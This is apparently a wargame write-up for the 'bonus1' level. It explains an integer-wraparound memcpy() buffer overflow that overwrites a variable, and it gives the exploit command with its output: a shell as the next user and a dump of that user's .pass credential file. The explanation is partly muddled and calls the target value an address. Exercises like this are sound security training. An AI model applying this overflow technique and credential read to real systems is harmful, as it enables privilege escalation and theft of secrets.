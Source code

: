 # bonus1

We need to set `n` to a value `< 10`. But to run the shell, `n` needs to have the value `0x574f4c46` (`1464814662` in decimal).

In order to do this, we can use a number `< 10`, which will pass the first condition.  
Then, to set `n` to the value `0x574f4c46`, we can actually write it directly in the memory by overflowing `buffer` with `memcpy()`.

The buffer is `40` bytes long and `n` address, which is `0x574f4c46`, is right after the buffer's address.  
Because whatever `n` is, there will be `n * 4` bytes copied into the buffer, we need to find a value `n` such that `n * 4` is `40`.

```
4294967295 / 4 = 1073741823
We remove 40 bytes from this :
1073741823 - 40 = 1073741783
```

```sh
$> ./bonus1 -1073741783 $(python -c 'print("A"*40 + "\x46\x4c\x4f\x57")')
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
